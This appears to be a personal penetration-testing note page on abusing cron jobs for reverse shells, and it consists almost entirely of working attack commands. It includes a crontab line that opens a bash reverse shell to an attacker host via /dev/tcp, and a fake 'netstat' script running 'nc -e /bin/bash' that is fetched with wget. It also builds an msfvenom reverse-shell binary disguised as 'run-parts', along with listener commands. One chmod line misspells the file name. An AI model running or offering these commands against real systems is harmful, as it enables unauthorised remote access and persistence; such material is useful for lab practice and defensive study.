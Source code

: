 #### Echo cron job

```bash - target
(crontab -l ; echo "* * * * * bash -i >& /dev/tcp/$KALI/443 0>&1 &") | crontab -
```

#### Example 1

![[Pasted image 20220225224851.png|1000]]

Target:
```bash - target
cd /dev/shm
```

Kali
```bash - kali
echo 'nc $KALI 443 -e /bin/bash' > netstat
```


![[Python#Server]]

Target:
```bash - target
wget http://$KALI/netstat
```

```bash - target
chmod +x netsat
```

![[rlwrap]]

#### Example 2

![[Pasted image 20220302210353.png]]

![[Pasted image 20220302210759.png]]

```bash - kali
msfvenom -p linux/x64/shell_reverse_tcp LHOST=$KALI LPORT=3000 -f elf > run-parts
```

```bash - target
cd /usr/local/bin
```

```bash - target
wget http://$KALI:3000/run-parts
```

```bash - target
chmod +x /usr/local/bin/run-parts
```

```bash - kali
sudo rlwrap -cAr nc -lvnp 3000
```

Wait the 5 minutes for the code to run.